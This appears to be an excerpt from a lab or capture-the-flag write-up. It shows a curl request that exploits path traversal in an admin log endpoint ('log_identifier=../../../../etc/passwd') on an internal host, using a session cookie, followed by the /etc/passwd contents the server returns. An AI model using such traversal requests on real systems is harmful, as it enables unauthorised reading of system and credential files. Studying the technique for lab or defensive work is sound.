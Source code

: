 ```bash

$ curl 'http://10.x.x.x:8000/admin/get_system_log?log_identifier=../../../../etc/passwd' \
	-H 'Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNq_UA.7kh-aEeche1Wr4QCdoLXiNLvGtU' \
	-H 'Priority: u=0, i'

```

```text

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
usbmux:x:100:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:102:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:103:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:104:104::/nonexistent:/usr/sbin/nologin
uuidd:x:105:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:106:107::/nonexistent:/usr/sbin/nologin
tss:x:107:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:108:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
web:x:1001:1001::/home/web:/bin/bash
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
snapd-range-524288-root:x:524288:524288::/nonexistent:/usr/bin/false
snap_daemon:x:584788:584788::/nonexistent:/usr/bin/false
mark:x:1002:1002::/home/mark:/bin/bash
_laurel:x:101:988::/var/log/laurel:/bin/false
dhcpcd:x:110:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false

```
